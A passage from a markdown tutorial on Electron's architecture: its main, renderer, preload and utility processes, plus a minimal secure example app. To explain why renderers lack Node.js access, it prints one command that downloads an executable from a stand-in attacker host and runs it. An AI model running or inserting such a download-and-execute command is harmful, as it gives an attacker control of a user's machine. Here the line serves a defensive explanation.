


# Electron Architecture and Process Model

> In this document you will learn what Electron is, which processes run inside an Electron app, what each process is allowed to do, and how they work together. You will also build a complete, minimal and secure Electron app. Almost every Electron interview starts with "explain the process model", so this is the foundation for everything else in this section.

**Before this:** [Processes, threads and memory](../01-cs-and-web-fundamentals/03-operating-systems-processes-threads-memory.md) · [Browser architecture and rendering](../01-cs-and-web-fundamentals/07-browser-architecture-and-rendering.md) · [Node.js runtime and architecture](../07-nodejs-backend/01-nodejs-runtime-and-architecture.md) · **Interview questions:** [jump to the interview section](#interview-questions)

## Table of contents

1. [What Electron is](#what-electron-is)
2. [Why teams choose Electron](#why-teams-choose-electron)
3. [The process model at a glance](#the-process-model-at-a-glance)
4. [The main process](#the-main-process)
5. [Renderer processes](#renderer-processes)
6. [webContents and BrowserWindow](#webcontents-and-browserwindow)
7. [Preload scripts](#preload-scripts)
8. [Utility processes](#utility-processes)
9. [GPU and other Chromium processes](#gpu-and-other-chromium-processes)
10. [Electron compared with the browser's multi-process model](#electron-compared-with-the-browsers-multi-process-model)
11. [A complete minimal secure app](#a-complete-minimal-secure-app)
12. [Development workflow options](#development-workflow-options)
13. [Bundled Chromium and Node.js versions](#bundled-chromium-and-nodejs-versions)
14. [Release cadence and support policy](#release-cadence-and-support-policy)
15. [Common mistakes](#common-mistakes)
16. [Best practices](#best-practices)
17. [How to explain the process model in an interview](#how-to-explain-the-process-model-in-an-interview)
18. [Interview questions](#interview-questions)
19. [Summary](#summary)
20. [References](#references)

---

## What Electron is

**Electron** is a framework for building desktop applications with web technologies: HTML, CSS and JavaScript (or TypeScript). One code base runs on Windows, macOS and Linux.

Electron is made of three parts:

| Part | What it gives you |
| --- | --- |
| **Chromium** | The browser engine from Google Chrome. It draws your user interface (HTML/CSS) and runs your frontend JavaScript. |
| **Node.js** | A JavaScript runtime with access to the operating system: files, processes, network sockets, environment variables. |
| **Native APIs (Electron's own modules)** | JavaScript APIs for desktop features: windows, menus, tray icons, dialogs, notifications, the clipboard, auto-start at login, and more. |

Simple explanation: Electron is "a Chrome browser without the address bar and tabs, plus Node.js, plus desktop APIs, packed into one `.exe`". You write the UI like a website. You write the system-level logic like a Node.js program. Electron connects the two.

### Why it exists

Before Electron, a team that wanted a desktop app usually had to write separate native code for each operating system: C# with WPF for Windows, Swift or Objective-C for macOS, C++ with GTK or Qt for Linux. That is three code bases and three skill sets.

Most companies already have web developers and web UI code. Electron lets them reuse those skills, and often the same UI components, to ship a real desktop app.

Electron started at GitHub in 2013 as the shell for the Atom editor ("Atom Shell"). Today it is an OpenJS Foundation project.

### Analogy

Think of an Electron app as a restaurant:

- The **main process** is the manager in the back office. There is exactly one manager. The manager can open and close the restaurant, hire staff, and use the safe (the operating system).
- Each **renderer process** is a dining room where customers (users) see the food (the UI). Dining rooms are open to the public, so you do not keep the safe key there.
- The **preload script** is the waiter at the door between the dining room and the back office. The waiter carries only specific, approved orders.

Where the analogy breaks down: in a real restaurant the waiter is trusted to use judgment. In Electron, the preload script should not make decisions. It only forwards a small, fixed set of requests, and the **main process must still check every request**.

### What an Electron app looks like on disk

When you install a packaged Electron app on Windows, you get something like this:

```text
C:\Users\asha\AppData\Local\Programs\OrderDesk\
  OrderDesk.exe          <- the Electron binary, renamed to your app name
  resources\
    app.asar             <- your JavaScript, HTML and CSS in one archive
  locales\               <- Chromium language files
  *.dll, *.pak, *.dat    <- Chromium and Node.js runtime files
```

Every Electron app ships its own copy of Chromium and Node.js. That is why even a "hello world" Electron installer is roughly 80–120 MB unpacked. Packaging and `app.asar` are covered in [Packaging, installers and code signing](06-packaging-installers-and-code-signing.md).

---

## Why teams choose Electron

Well-known desktop apps built with Electron include Visual Studio Code, Slack, Discord, Postman, Obsidian, Signal Desktop and GitHub Desktop.

**Advantages:**

- **One code base for three operating systems.** Most of the code is shared.
- **Web skills and web libraries.** Angular, React, Vue, CSS frameworks, charting libraries and component libraries all work.
- **Full Node.js in the back end of the app.** You can read files, run other programs, talk to hardware through Node packages, and use local databases.
- **Same rendering everywhere.** You ship a known Chromium version, so you do not fight different browser engines on different machines.
- **Mature ecosystem.** Auto-updates, installers, crash reporting and code signing all have established tools.

**Disadvantages:**

- **Large download and disk size**, because Chromium and Node.js are included in every app.
- **Higher memory use** than a native app. Each window is at least one Chromium renderer process.
- **You own browser security.** A web page bug can become a desktop bug. You must configure Electron securely (see [Electron security](04-electron-security.md)).
- **You must keep updating.** Chromium gets security fixes every few weeks. Your app only receives them when you ship a new version with a newer Electron.
- **Not truly native look and feel.** You build the UI yourself; it does not use native Windows controls.

When Electron is a poor fit (tiny utilities, very memory-limited machines, apps that need deep native UI integration) and the alternatives (Tauri, .NET WPF/WinUI, Flutter, PWAs) are compared in [Performance, architecture and alternatives](09-performance-architecture-and-alternatives.md).

---

## The process model at a glance

A **process** is a running program with its own memory. One process cannot read another process's memory directly. If one process crashes, the others can keep running. (See [Processes, threads and memory](../01-cs-and-web-fundamentals/03-operating-systems-processes-threads-memory.md) for the operating system details.)

Electron inherits Chromium's **multi-process architecture**. An Electron app is not one process. It is a group of cooperating processes:

| Process | How many | Runs | Main job |
| --- | --- | --- | --- |
| **Main process** | Exactly one | Node.js + Electron main APIs | App lifecycle, windows, menus, native features, IPC handlers |
| **Renderer process** | Usually one per page (per `webContents`) | Chromium web page (Blink + V8) | Draws the UI, runs frontend code |
| **Preload script** | One per page (runs *inside* the renderer process) | Isolated JavaScript context with a few Electron APIs | Exposes a small, safe API to the page |
| **Utility process** | Zero or more, you create them | Node.js | Background work: CPU-heavy tasks, crash-prone code, services |
| **GPU process** | One | Chromium | Graphics and compositing |
| **Other Chromium helpers** | Several | Chromium | Network service, audio, storage, crash reporting |



The most important idea: **the renderer is like a browser tab and should be treated as untrusted. The main process is like a Node.js server with full system power.** They talk only through **IPC** (inter-process communication), which means sending messages between processes. IPC has its own document: [IPC and preload scripts](03-ipc-and-preload-scripts.md).

You can see these processes on Windows. Open Task Manager while VS Code is running. You will see many `Code.exe` entries. Each one is a different process type from the table above.

---

## The main process

### What it is

The **main process** is the entry point of every Electron app. It is the process that starts first when the user double-clicks `OrderDesk.exe`. It runs the file named in the `main` field of your `package.json`.

The main process is a full **Node.js environment**. You can `require('node:fs')`, `require('node:child_process')`, open sockets, and use npm packages. On top of Node.js, it has Electron's main-process modules.

Inside Chromium terms, the main process is Chromium's **browser process** with Node.js embedded in it.

### What it does

- **Controls the app lifecycle** with the `app` module: start-up, `ready`, quitting, single-instance lock, deep links.
- **Creates and manages windows** with `BrowserWindow` (and `BaseWindow` + `WebContentsView`).
- **Owns native UI**: menus (`Menu`), tray icons (`Tray`), dialogs (`dialog`), notifications (`Notification`).
- **Handles IPC requests** from renderers with `ipcMain.handle` and `ipcMain.on`.
- **Talks to the operating system**: files, child processes, power events, the clipboard, auto-start.
- **Runs services** such as the auto-updater, logging and settings storage.

```js
// main.js — the main process entry point (runs in Node.js)
const { app, BrowserWindow } = require('electron');
const os = require('node:os');

console.log('Main process PID:', process.pid);
console.log('Running on:', os.platform(), os.release()); // e.g. win32 10.0.26100

app.whenReady().then(() => {
  const win = new BrowserWindow({ width: 900, height: 600 });
  win.loadURL('https://example.com');
});
```

The `console.log` output from the main process appears in the **terminal** where you ran `npm start`, not in the window's DevTools. This surprises many beginners.

### Key facts to remember

- There is **exactly one** main process per app instance.
- It has **no DOM**. There is no `document` or `window` in the main process.
- **If the main process crashes, the whole app exits.** Every window closes.
- **If the main process is blocked, every window freezes.** Window dragging, menus and IPC replies all wait for the main process. A slow synchronous file read or a long loop in the main process makes the entire app feel frozen.

That last point is a very common real-world bug:

```js
// ❌ Wrong: synchronous work in the main process blocks every window
const fs = require('node:fs');
const { ipcMain } = require('electron');

ipcMain.handle('report:export', () => {
  const rows = JSON.parse(fs.readFileSync('C:\\data\\orders-2026.json', 'utf8')); // 300 MB file
  return buildCsv(rows); // CPU-heavy loop — the UI cannot repaint until it finishes
});
```

```js
// ✅ Correct: async I/O, and CPU-heavy work moved to a utility process
const fs = require('node:fs/promises');
const { ipcMain } = require('electron');

ipcMain.handle('report:export', async () => {
  const text = await fs.readFile('C:\\data\\orders-2026.json', 'utf8'); // does not block
  return runInReportWorker(text); // sends the job to a utility process (see below)
});
```

---

## Renderer processes

### What it is

A **renderer process** runs a web page. It contains Chromium's rendering engine (Blink) and a V8 JavaScript engine. It parses HTML, applies CSS, runs your frontend JavaScript and paints pixels.

Each `BrowserWindow` loads its page in a renderer process. So does each `WebContentsView` (an extra web page you place inside a window). More precisely, each page is represented in the main process by a **`webContents`** object, and normally each `webContents` has its own renderer process.

Some details you should know:

- Chromium's **site isolation** can put a cross-site `<iframe>` in its own separate renderer process.
- A popup opened with `window.open` from the same site may share its opener's process.
- So "one renderer per window" is the normal case, not a strict law.

### What it can and cannot do

With secure settings (the defaults in modern Electron), a renderer behaves like a normal browser tab:

| Can | Cannot |
| --- | --- |
| Use the DOM, CSS, `fetch`, `localStorage`, IndexedDB, Web Workers, WebSockets | Use `require`, `process`, `fs`, `child_process` or any Node.js API |
| Use frameworks: Angular, React, Vue | Call Electron main-process APIs such as `dialog` or `BrowserWindow` |
| Call functions that the preload script exposed (for example `window.api.saveOrder()`) | Read arbitrary files on disk |

```js
// renderer.js — runs in the web page (secure defaults)
console.log(typeof document);        // object
console.log(typeof window.fetch);    // function
console.log(typeof require);         // undefined
console.log(typeof process);         // undefined
```

This output appears in the window's **DevTools console** (open it with `Ctrl+Shift+I` in development, or with `win.webContents.openDevTools()`).

### Why renderers have no Node.js access

A renderer runs HTML and JavaScript. HTML can be attacked: a cross-site scripting (XSS) bug, a malicious npm package in your frontend bundle, or a remote page you load. In a normal browser, an XSS bug lets the attacker act inside one website. In an Electron renderer with Node.js enabled, the same bug lets the attacker run:

```js
require('child_process').exec('powershell -c "Invoke-WebRequest https://evil.example/x.exe -OutFile x.exe; ./x.exe"');
```

That is full control of the user's computer. This is why Node.js in renderers is off by default (`nodeIntegration: false` since Electron 5) and why renderers are sandboxed by default (`sandbox: true` since Electron 20). The full threat model is in [Electron security](04-electron-security.md).

---

## webContents and BrowserWindow

These two names are often confused in interviews.

- **`BrowserWindow`** is the **native window**: the frame, title bar, size, position, minimize/maximize, taskbar entry.
- **`webContents`** is the **web page inside the window**: loading URLs, navigation, DevTools, printing, sending IPC messages to the page, page events (finished loading, crashed, wants to navigate).

Every `BrowserWindow` has one `webContents`, available as `win.webContents`. `webContents` lives in the main process. It is the main process's **handle** (remote control) for a renderer process.

```js
const { app, BrowserWindow } = require('electron');

app.whenReady().then(() => {
  const win = new BrowserWindow({ width: 1000, height: 700 });

  // Window-level things
  win.setTitle('OrderDesk');
  win.maximize();

  // Page-level things go through webContents
  win.webContents.loadURL('https://example.com');
  win.webContents.on('did-finish-load', () => {
    console.log('Page loaded:', win.webContents.getURL());
  });
  win.webContents.on('render-process-gone', (_event, details) => {
    console.log('Renderer crashed or was killed:', details.reason);
  });
});
```

Useful lookups:

```js
const { BrowserWindow, webContents } = require('electron');

BrowserWindow.getAllWindows();               // all open windows
BrowserWindow.getFocusedWindow();            // the focused window or null
BrowserWindow.fromWebContents(event.sender); // which window sent this IPC message?
webContents.getAllWebContents();             // every page, including DevTools and views
```

> **Analogy:** `BrowserWindow` is a TV set (the box, screen and buttons). `webContents` is the channel playing on it. You can control the channel (change it, record it) through the remote, which is `webContents`.

### Windows that hold more than one page

Sometimes one window needs several independent pages, for example a sidebar app plus an embedded third-party portal. Modern Electron uses **`BaseWindow`** plus **`WebContentsView`** for this. Each `WebContentsView` has its own `webContents` and its own renderer process.

```js
const { app, BaseWindow, WebContentsView } = require('electron');

app.whenReady().then(() => {
  const win = new BaseWindow({ width: 1200, height: 800 });

  const sidebar = new WebContentsView();
  win.contentView.addChildView(sidebar);
  sidebar.setBounds({ x: 0, y: 0, width: 300, height: 800 });
  sidebar.webContents.loadFile('sidebar.html');

  const portal = new WebContentsView();
  win.contentView.addChildView(portal);
  portal.setBounds({ x: 300, y: 0, width: 900, height: 800 });
  portal.webContents.loadURL('https://portal.contoso.com');
});
```

`WebContentsView` arrived in Electron 30, and the older `BrowserView` was deprecated in the same release. Do not use `BrowserView` in new code. The `<webview>` tag still exists but is disabled by default and discouraged; see [Electron security](04-electron-security.md) for the details.

---

## Preload scripts

### What it is

A **preload script** is a JavaScript file that runs **inside the renderer process, before the web page loads**. You set it with the `preload` option in `webPreferences`:

```js
new BrowserWindow({
  webPreferences: {
    preload: path.join(__dirname, 'preload.js'), // must be an absolute path
  },
});
```

### Why it exists

The page cannot use Node.js or Electron APIs (good for security). But the page still needs *some* desktop features: "save this order to disk", "print this receipt", "tell me when an update is downloaded". Somebody must build a safe bridge. That is the preload script's job.

### How it works inside

The preload script runs in the same renderer process as the page, but in a **separate JavaScript context**. This separation is called **context isolation** (on by default since Electron 12).

A JavaScript context (also called a "world") has its own global object and its own built-ins (`Array`, `Object`, `Promise`). Two contexts in the same process cannot see each other's variables. So:

- If the preload sets `window.secret = 42`, the page does **not** see it.
- If the page overwrites `Array.prototype.push`, the preload's arrays are **not** affected.

To give the page an API, the preload uses **`contextBridge.exposeInMainWorld`**. Electron copies the API safely into the page's world.

```js
// preload.js — runs in an isolated world inside the renderer process
const { contextBridge, ipcRenderer } = require('electron');

contextBridge.exposeInMainWorld('orderDesk', {
  getAppInfo: () => ipcRenderer.invoke('app:get-info'),
});
```

```js
// renderer.js — the page
async function showVersion() {
  const info = await window.orderDesk.getAppInfo();
  console.log(info.appVersion); // 1.0.0
}
showVersion();

console.log(typeof window.orderDesk.getAppInfo); // function
console.log(typeof window.ipcRenderer);          // undefined — not leaked
```

### What a sandboxed preload can use

With `sandbox: true` (the default since Electron 20), the preload script does **not** get full Node.js. It gets a small, safe set:

| Available in a sandboxed preload | |
| --- | --- |
| `require('electron')` | only `contextBridge`, `crashReporter`, `ipcRenderer`, `nativeImage`, `webFrame`, `webUtils` |
| Node.js modules | `events`, `timers`, `url` (also as `node:events`, `node:timers`, `node:url`) |
| Globals | `Buffer`, `process`, `clearImmediate`, `setImmediate` |

So `require('node:fs')` or `require('./my-helper')` fails in a sandboxed preload. If your preload is split into several files (for example it imports a shared list of IPC channel names), you must **bundle** it into one file with Vite, webpack or esbuild. This is explained in [IPC and preload scripts](03-ipc-and-preload-scripts.md).

Also note: a sandboxed preload cannot use ES module `import` syntax. Sandboxed preloads run as plain scripts, so write them as CommonJS (`require`) or let your bundler output CommonJS.

### The golden rule for preload scripts

> Expose **small, specific functions** (like `saveOrder(order)`), never powerful general tools (like `ipcRenderer`, `fs` or `shell`).

```js
// ❌ Wrong: gives every script in the page full IPC power
contextBridge.exposeInMainWorld('electron', { ipcRenderer });

// ✅ Correct: one narrow function per action
contextBridge.exposeInMainWorld('orderDesk', {
  saveOrder: (order) => ipcRenderer.invoke('orders:save', order),
});
```

Since Electron 29, `ipcRenderer` itself can no longer be sent over the `contextBridge` (the page receives an empty object). But wrapping it in a generic `send(channel, data)` function is just as dangerous, so the rule still matters.

---

## Utility processes

### What it is

A **utility process** is a Node.js child process that the main process starts with **`utilityProcess.fork()`**. It is launched through Chromium's own process management (the "services" system), not through Node's `child_process`. The API was added in Electron 22.

### Why it exists

The main process must stay responsive. But real apps have heavy or risky jobs:

- Parsing a 500 MB CSV export.
- Generating PDFs or images.
- Running a sync engine that talks to a server every few seconds.
- Talking to a crash-prone native library (for example a card payment terminal SDK).

If you run these in the main process, the app freezes, or crashes completely if the native code crashes. In a utility process, a crash only kills that process. The main process can log the error and restart it.

### Code example

```js
// main.js
const { app, utilityProcess } = require('electron');
const path = require('node:path');

app.whenReady().then(() => {
  const reportWorker = utilityProcess.fork(path.join(__dirname, 'report-worker.js'), [], {
    serviceName: 'OrderDesk Report Worker', // shown in app.getAppMetrics()
    stdio: 'pipe',
  });

  reportWorker.on('spawn', () => console.log('Worker started, PID', reportWorker.pid));
  reportWorker.on('message', (result) => console.log('Report ready:', result));
  reportWorker.on('exit', (code) => console.log('Worker exited with code', code));

  reportWorker.postMessage({ type: 'build-report', month: '2026-10' });
});
```

```js
// report-worker.js — runs in the utility process (Node.js environment)
process.parentPort.on('message', (event) => {
  const job = event.data; // { type: 'build-report', month: '2026-10' }
  if (job.type === 'build-report') {
    const rows = buildMonthlyReport(job.month); // CPU-heavy work does not block the UI
    process.parentPort.postMessage({ month: job.month, rowCount: rows.length });
  }
});
```

Note the small API difference: in the main process you read the message directly (`result`), but inside the utility process the message arrives as an event object, so you read `event.data`.

### Utility process vs `child_process.fork` vs worker threads

| | `utilityProcess.fork` | `child_process.fork` | `worker_threads` |
| --- | --- | --- | --- |
| Separate process | Yes | Yes | No (thread in the same process) |
| Crash isolation | Yes | Yes | No — a native crash kills the main process |
| Can receive a `MessagePort` from a renderer | Yes | No | No |
| Recommended by Electron for forking from main | Yes | Works, but not recommended | For lighter CPU work |

The Electron docs recommend `utilityProcess` over `child_process.fork` when you fork from the main process. A detailed decision guide, plus how to run external programs (a .NET or Python helper, a CLI tool), is in [Filesystem, child processes and native features](05-filesystem-child-processes-and-native-features.md).

---

## GPU and other Chromium processes

Electron inherits these processes from Chromium. You do not create them, but you will see them in Task Manager and in `app.getAppMetrics()`.

- **GPU process**: one process that talks to the graphics card. It composites (combines) the layers of every page into the final image on screen and runs WebGL and video decoding. If the GPU driver crashes, only this process dies, and Chromium restarts it.
- **Network service**: a utility process that does all HTTP requests, cookies and caching for the app's sessions.
- **Other utility services**: audio, storage and similar Chromium services.
- **Crashpad handler**: a small process that writes crash dumps when crash reporting is enabled (see [Logging, crash recovery and monitoring](08-logging-crash-recovery-and-monitoring.md)).

You can list them from the main process:

```js
const { app } = require('electron');

app.whenReady().then(() => {
  setTimeout(() => {
    for (const metric of app.getAppMetrics()) {
      console.log(metric.type, metric.pid, metric.name ?? '', `${metric.memory.workingSetSize} KB`);
    }
  }, 3000);
});
// Example output (values differ on every machine):
// Browser 12040  182340 KB          <- the main process
// Tab 9876  98012 KB                <- a renderer process
// GPU 4410  60120 KB
// Utility 7712 Network Service 21004 KB
// Utility 8120 OrderDesk Report Worker 30556 KB
```

Notice that the main process reports itself as type `Browser`, and renderers as type `Tab`. These names come from Chromium.

### Startup sequence

This sequence diagram shows what happens when the user starts the app.



---

## Electron compared with the browser's multi-process model

Chrome itself uses many processes: one **browser process** (the trusted coordinator), several **renderer processes** (one or more per site), a **GPU process** and utility processes. Electron reuses this design almost exactly. The details of the browser architecture are in [Browser architecture and rendering](../01-cs-and-web-fundamentals/07-browser-architecture-and-rendering.md).

| Topic | Chrome browser | Electron app |
| --- | --- | --- |
| Trusted coordinator | Browser process (Google's code) | Main process = browser process **plus Node.js plus your code** |
| Who writes the coordinator code | Google | **You** |
| Renderers | Untrusted tabs, always sandboxed | Your pages; sandboxed by default since Electron 20, but you *can* weaken this |
| Node.js | None | In the main process, utility processes, and (limited) preload scripts |
| Browser UI | Tabs, address bar, security indicators | None — you build all UI |
| Chromium updates | Automatic, every few weeks | Only when **you** upgrade Electron and ship a release |
| Security decisions (permissions, navigation, popups) | Made by the browser, with prompts | **You** must implement them (handlers in main) |
| Content | Any website | Usually your own app; sometimes remote content |

The big lesson: in Chrome, Google's engineers own the security of the browser process. In Electron, **you write the browser process**. A bad decision in your main process, such as passing a renderer-supplied string straight into `shell.openExternal` or `child_process.exec`, breaks the sandbox from the inside.

```mermaid
flowchart LR
    subgraph Chrome["Chrome browser"]
        BP["Browser process<br/>Google code"]
        T1["Tab renderer<br/>sandboxed"]
        T2["Tab renderer<br/>sandboxed"]
        BP --- T1
        BP --- T2
    end
    subgraph Electron["Electron app"]
        MP["Main process<br/>browser process + Node.js + your code"]
        W1["Window renderer<br/>sandboxed by default"]
        W2["Window renderer<br/>sandboxed by default"]
        MP --- W1
        MP --- W2
    end
```



---

## A complete minimal secure app

Now you will build a small but complete app called **OrderDesk**. It shows the app and runtime versions in a window. It is small on purpose, but it already follows the secure pattern that real apps use:

- Node.js stays out of the page.
- The page talks to the main process only through one narrow preload function.
- The main process checks who is calling.
- The window cannot navigate away or open new windows.
- The page has a Content Security Policy (CSP).

### Folder structure

```text
orderdesk/
  package.json
  src/
    main.js          <- main process
    preload.js       <- preload script (bridge)
    renderer/
      index.html     <- the page
      renderer.js    <- frontend code
      styles.css
```

### package.json

```json
{
  "name": "orderdesk",
  "productName": "OrderDesk",
  "version": "1.0.0",
  "description": "Order desk for store staff",
  "main": "src/main.js",
  "scripts": {
    "start": "electron ."
  },
  "author": "Contoso Retail IT",
  "license": "UNLICENSED",
  "devDependencies": {
    "electron": "^44.0.0"
  }
}
```

- **`main`** tells Electron which file to run in the main process.
- **`electron .`** starts the Electron binary and loads the app in the current folder.
- Electron is a **dev dependency** because the packaging tools copy the Electron binary into your installer. Your users never run `npm install`.
- Use any currently supported Electron major (see [Release cadence and support policy](#release-cadence-and-support-policy)).

Install and run:

```bash
npm install
npm start
```

### src/main.js

```js
// src/main.js — main process
const { app, BrowserWindow, ipcMain } = require('electron');
const path = require('node:path');
const { fileURLToPath } = require('node:url');

const INDEX_HTML = path.join(__dirname, 'renderer', 'index.html');

/** @type {BrowserWindow | null} */
let mainWindow = null;

function createMainWindow() {
  mainWindow = new BrowserWindow({
    width: 1100,
    height: 720,
    show: false,               // show only when the first paint is ready (no white flash)
    backgroundColor: '#ffffff',
    webPreferences: {
      preload: path.join(__dirname, 'preload.js'),
      contextIsolation: true,  // default since Electron 12 — written here on purpose
      nodeIntegration: false,  // default since Electron 5
      sandbox: true,           // default since Electron 20
    },
  });

  mainWindow.once('ready-to-show', () => mainWindow.show());
  mainWindow.on('closed', () => {
    mainWindow = null;         // drop the reference so it can be garbage collected
  });

  mainWindow.loadFile(INDEX_HTML);
}

// Is this IPC message coming from our own index.html?
function isOurPage(frame) {
  if (!frame) return false; // the frame navigated away or was destroyed
  try {
    const url = new URL(frame.url);
    if (url.protocol !== 'file:') return false;
    const requested = path.resolve(fileURLToPath(url));
    const expected = path.resolve(INDEX_HTML);
    return process.platform === 'win32'
      ? requested.toLowerCase() === expected.toLowerCase() // Windows paths ignore case
      : requested === expected;
  } catch {
    return false;
  }
}

// IPC: the page asks for version information
ipcMain.handle('app:get-info', (event) => {
  if (!isOurPage(event.senderFrame)) {
    throw new Error('Unauthorized sender');
  }
  return {
    appVersion: app.getVersion(),        // from package.json "version"
    electron: process.versions.electron,
    chrome: process.versions.chrome,
    node: process.versions.node,
    platform: process.platform,          // "win32" on Windows (also 64-bit)
  };
});

// Security: apply navigation rules to EVERY web page the app creates
app.on('web-contents-created', (_event, contents) => {
  contents.on('will-navigate', (event) => {
    event.preventDefault();              // this app never navigates away from index.html
  });
  contents.setWindowOpenHandler(() => ({ action: 'deny' })); // no popups
});

app.whenReady().then(() => {
  createMainWindow();

  // macOS: clicking the Dock icon with no windows open should create one
  app.on('activate', () => {
    if (BrowserWindow.getAllWindows().length === 0) createMainWindow();
  });
});

// Windows and Linux: quit when the last window closes
app.on('window-all-closed', () => {
  if (process.platform !== 'darwin') app.quit();
});
```

### src/preload.js

```js
// src/preload.js — runs in the renderer process, in an isolated world, before the page
const { contextBridge, ipcRenderer } = require('electron');

contextBridge.exposeInMainWorld('orderDesk', {
  // One narrow function. The page cannot choose the channel or send anything else.
  getAppInfo: () => ipcRenderer.invoke('app:get-info'),
});
```

### src/renderer/index.html

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <!-- Only load scripts, styles and images from our own files -->
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' data:; object-src 'none'; base-uri 'none'; form-action 'none'"
    />
    <title>OrderDesk</title>
    <link rel="stylesheet" href="./styles.css" />
  </head>
  <body>
    <h1>OrderDesk</h1>
    <p id="status">Loading…</p>
    <ul id="app-info"></ul>
    <script src="./renderer.js"></script>
  </body>
</html>
```

### src/renderer/renderer.js

```js
// src/renderer/renderer.js — normal browser JavaScript, no Node.js
const statusText = document.querySelector('#status');
const infoList = document.querySelector('#app-info');

async function showAppInfo() {
  try {
    const info = await window.orderDesk.getAppInfo();
    for (const [label, value] of Object.entries(info)) {
      const item = document.createElement('li');
      item.textContent = `${label}: ${value}`; // textContent, never innerHTML, for data
      infoList.append(item);
    }
    statusText.textContent = 'Ready';
  } catch (error) {
    statusText.textContent = `Could not load app info: ${error.message}`;
  }
}

showAppInfo();
```

### src/renderer/styles.css

```css
body {
  font-family: "Segoe UI", system-ui, sans-serif;
  margin: 24px;
  color: #1f2933;
}
#status {
  color: #52606d;
}
```

### What you will see

The window shows something like this (your versions will differ):

```text
OrderDesk
Ready
- appVersion: 1.0.0
- electron: 44.x.x
- chrome: 152.x.x.x
- node: 24.x.x
- platform: win32
```

### Step-by-step walkthrough

1. You run `npm start`. The `electron` command starts the Electron binary and reads `package.json`.
2. Electron runs `src/main.js` in the **main process**. The top-level code runs immediately: it registers the `app:get-info` handler and the `web-contents-created`, `window-all-closed` listeners. No window exists yet.
3. Electron finishes initializing and fires `ready`. The `app.whenReady()` promise resolves and `createMainWindow()` runs.
4. `new BrowserWindow(...)` creates a native window (hidden, because `show: false`) and a new **renderer process**. The `web-contents-created` listener fires for its `webContents` and installs the navigation and popup rules.
5. In the renderer process, Electron runs `preload.js` first, in an **isolated world**. It calls `exposeInMainWorld`, so `window.orderDesk` now exists in the page's world.
6. The renderer loads `index.html`. The CSP meta tag takes effect. Then `renderer.js` runs.
7. `renderer.js` calls `window.orderDesk.getAppInfo()`. That calls `ipcRenderer.invoke('app:get-info')` in the preload world, which sends an IPC message to the main process and returns a promise.
8. The main process receives the message. The handler checks `event.senderFrame`: is it our `index.html`? Yes. It returns the version object.
9. Electron serializes the object (structured clone), sends it back, and resolves the promise in the page.
10. The page builds the list with `textContent`. When the first paint is ready, the main process gets `ready-to-show` and calls `mainWindow.show()`. The user sees a fully drawn window with no white flash.

### Why each security line matters

| Line | What it prevents |
| --- | --- |
| `contextIsolation: true` | The page cannot reach the preload's variables or Electron internals, or tamper with built-ins the preload uses. |
| `nodeIntegration: false` | The page cannot `require('child_process')`. |
| `sandbox: true` | The renderer runs inside Chromium's OS-level sandbox, and even the preload only gets a small API. |
| Narrow `getAppInfo` function | The page cannot send arbitrary IPC messages. |
| `isOurPage(event.senderFrame)` | Messages from any other page or frame are rejected. |
| `will-navigate` → `preventDefault` | A malicious link cannot replace your page with a remote page that still has your preload API. |
| `setWindowOpenHandler` → `deny` | `window.open` or `target="_blank"` cannot create new windows. |
| CSP meta tag | Injected inline scripts and scripts from other origins do not run. |
| `textContent` instead of `innerHTML` | Data is shown as text, not parsed as HTML (prevents XSS). |

This app loads its page from `file://` with `loadFile`, as the official tutorial does. For production apps, the security checklist recommends serving your files from a **custom protocol** (for example `app://bundle/index.html`) instead of `file://`. You will upgrade to that pattern in [Electron security](04-electron-security.md#prefer-a-custom-protocol-over-file).

---

## Development workflow options

Plain `npm install electron` plus `electron .` is fine for learning. Real projects need more: TypeScript, bundling the renderer, hot reload, packaging and installers. Here are the common choices.

### Electron Forge

**Electron Forge** is the official all-in-one tool from the Electron team. It creates a project, runs it in development, and packages it into installers (Squirrel.Windows, MSI with WiX, ZIP, DMG, deb, rpm).

```bash
npx create-electron-app@latest orderdesk --template=vite-typescript
cd orderdesk
npm start        # development with hot reload for the renderer
npm run make     # build installers for the current platform
```

Forge templates include `vite`, `vite-typescript`, `webpack` and `webpack-typescript`. Forge marks its Vite support as experimental (since Forge 7.5), which means minor Forge releases may contain breaking changes for Vite users. Forge also includes a plugin for flipping Electron fuses (see [Electron security](04-electron-security.md#electron-fuses)).

### electron-vite

